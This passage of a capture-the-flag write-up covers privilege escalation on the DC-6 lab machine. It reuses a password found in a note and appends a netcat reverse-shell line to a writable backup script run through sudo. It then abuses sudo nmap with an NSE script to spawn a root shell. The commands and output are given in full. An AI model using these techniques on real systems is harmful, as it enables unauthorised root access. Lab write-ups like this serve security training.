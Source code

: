 What we got :

- A backup script which compress the website directory
- A note with a password for the user graham

Let's escalate to graham and check for sudo permissions:

```
www-data@dc-6:/var/www/html/wp-admin$ su - graham
Password: GSo7isUM1D4

graham@dc-6:~$ id
uid=1001(graham) gid=1001(graham) groups=1001(graham),1005(devs)

graham@dc-6:~$ sudo -l
Matching Defaults entries for graham on dc-6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User graham may run the following commands on dc-6:
    (jens) NOPASSWD: /home/jens/backups.sh
```

We can execute the backup script as 'jens' and since we are in the 'devs' group we have write permission on the script and we are going to abuse it :

```
graham@dc-6:~$ echo 'nc 192.168.0.167 4445 -e /bin/bash' >> /home/jens/backups.sh
graham@dc-6:~$ sudo -u jens /home/jens/backups.sh


h3x@kalict:~$ nc -lnvp 4445
listening on [any] 4445 ...
connect to [192.168.0.167] from (UNKNOWN) [192.168.0.170] 56222

jens@dc-6:~$ id
uid=1004(jens) gid=1004(jens) groups=1004(jens),1005(devs)
```

We are now escalated to 'jens' user and are able to run /usr/bin/nmap as root so we should be able to get a shell from this:

```
jens@dc-6:~$ sudo -l
Matching Defaults entries for jens on dc-6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jens may run the following commands on dc-6:
    (root) NOPASSWD: /usr/bin/nmap

jens@dc-6:~$ echo 'os.execute("/bin/bash")' >> /tmp/pe && sudo nmap --script=/tmp/pe
Starting Nmap 7.40 ( https://nmap.org ) at 2022-01-14 14:32 AEST
NSE: Warning: Loading '/tmp/pe' -- the recommended file extension is '.nse'.
root@dc-6:/home/jens# id && hostname
uid=0(root) gid=0(root) groups=0(root)
dc-6

root@dc-6:~# cat theflag.txt


Yb        dP 888888 88     88         8888b.   dP"Yb  88b 88 888888 d8b
 Yb  db  dP  88__   88     88          8I  Yb dP   Yb 88Yb88 88__   Y8P
  YbdPYbdP   88""   88  .o 88  .o      8I  dY Yb   dP 88 Y88 88""   `"'
   YP  YP    888888 88ood8 88ood8     8888Y"   YbodP  88  Y8 888888 (8)


Congratulations!!!
```